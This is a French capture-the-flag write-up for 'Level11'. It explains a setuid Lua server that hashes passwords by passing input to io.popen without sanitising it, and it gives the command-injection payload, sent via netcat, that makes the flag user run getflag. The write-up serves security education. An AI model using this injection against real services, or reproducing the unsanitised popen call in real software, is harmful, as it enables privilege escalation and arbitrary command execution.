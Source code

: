# Level11

Premiere étape de recherche

	$ ls -la
	-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua

On trouve un script lua

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end

```

C'est un programme qui ouvre une connexion et attends un password pour le comparer avec celui hashé
Il utilise la fonction "io.popen" pour la fonction de hash. Cette fonction permet d'executer des programmes. Le programme s'en sert pour executer une commande

`io.popen("echo "..pass.." | sha1sum", "r")`

Il execute un echo + le mdp reçu pipé avec sha1sum pour obtenir le hash

On test sa connexion avec netcat

	$ nc localhost 5151
	Password:

Il attend bien le mot de passe

On peut injecter des commandes a executer pour completer sa commande directement dans le mot de passe :

`$(getflag) > /tmp/coucou; chmod 777 /tmp/coucou; echo coucou`

Le flag se trouve donc dans le fichier "/tmp/coucou"

